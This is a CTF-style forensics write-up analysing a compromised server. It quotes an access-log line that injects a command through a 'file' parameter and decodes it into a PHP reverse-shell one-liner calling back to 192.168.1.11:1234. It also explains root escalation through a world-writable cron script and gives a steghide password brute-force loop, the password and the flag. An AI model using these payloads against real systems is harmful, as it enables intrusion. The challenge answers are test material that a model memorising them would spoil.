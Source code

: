 **Relevant log line**  
`192.168.1.11 - - [22/Nov/2016:09:48:56 +0100] "GET /originalIndex.php?password=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&file=;php%20-r%20%27%24sock%3dfsockopen(%22192.168.1.11%22%2c1234)%3bexec(%22%2fbin%2fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3b%27 HTTP/1.1" 200 1345 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0"`

the file [restored-access.log](assets/restored-access.log) contains the full restore of the access.log.

this line compromises the host using php.
**decoded line**  
`php -r '$sock=fsockopen("192.168.1.11",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`  
this opens a port (1234) on the address 192.168.1.11.
This address is surprising as 192.168.1.0/16 is normally a internal network.
The Attacker was either on the internal network, or a odd Portforwarding is taking place.
Not knowing the network this is impossible to analyze - however should be looked into before bringing the server back up.


### gaining root (answer to question 2)
the original root-password appears to be in the file /home/root/root_pw

due to permissions, this file can only be read by root.

A Cronjob of root is calling `/var/spool/cron/doAlwaysCron.sh` regularily.  
Permissions on this file allow every user to change the file (which did apparently happen after the compromise according to the file timestamps).

This allowed the privilege escalation to take place.
```
ls -l /var/spool/cron/
total 16
drwxrwx--T 2 daemon daemon  4096 Nov 18 11:20 atjobs
drwxrwx--T 2 daemon daemon  4096 Sep 30  2014 atspool
drwx-wx--T 2 root   crontab 4096 Mar 18 10:28 crontabs
-rwxrwxrwx 1 root   root      29 Nov 23 14:56 doAlwaysCron.sh
```

#### Flag (partial answer to question 3)

steganographically hidden using steghide (in flag image)
using steghide -sf /home/hackedData/flagImage.jpg to extract

###### the password stands out as it's the longest line in the file   `/home/hackedData/hackedPasswords.txt`

###### Alternatively we can bruteforce
`for p in $(cat hackedPasswords.txt) ;do  steghide info flagImage.jpg -p $p > /dev/null 2>&1; if [ $? == "0" ]; then echo $p; fi; done;`

##### decrypt password:  pass
`gr3at3stH4xX0rAl1ve!1`  
command used to decrypt:  
`steghide extract -sf flagImage.jpg -p $(cat pass) -xf flag.txt`

cat flag.txt
```
You solved the challenge!
Here is your nugget <@:-)

H4CK1NG_1S_RE4LY_4WESOM3!
```
